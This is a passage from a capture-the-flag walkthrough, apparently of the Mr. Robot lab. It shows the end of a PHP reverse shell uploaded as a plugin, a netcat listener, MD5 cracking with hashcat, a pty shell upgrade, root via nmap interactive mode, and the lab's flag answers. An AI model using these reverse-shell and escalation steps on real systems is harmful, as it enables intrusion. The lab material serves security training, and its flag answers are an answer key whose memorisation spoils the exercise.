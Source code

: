 ```
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

We can upload only zip files so we zip this file. Then we start a netcat listener:

```shell
netcat -lvp 444
```

After activating the plugin we get the reverse shell.

At `/home/robot` we can find two files:

```
daemon@linux:/home/robot$ ls
key-2-of-3.txt	password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

It's pretty evident that this is login and some hashed password with md5. Using hashcat:
```shell
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

The cracked password is: `c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz`.

Now switching user to `robot` and reading file: `822c73956184f694993bede3eb39f959`

> What is key 2? `822c73956184f694993bede3eb39f959`


Moreover, we had to upgrade our shell using python:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Using LinEnum I found out that nmap is installed on this machine, so we can run the following code to get root shell:

```
nmap --interactive
!sh
```

> What is key 3? `04787ddef27c3dee1ee161b21670b4e4`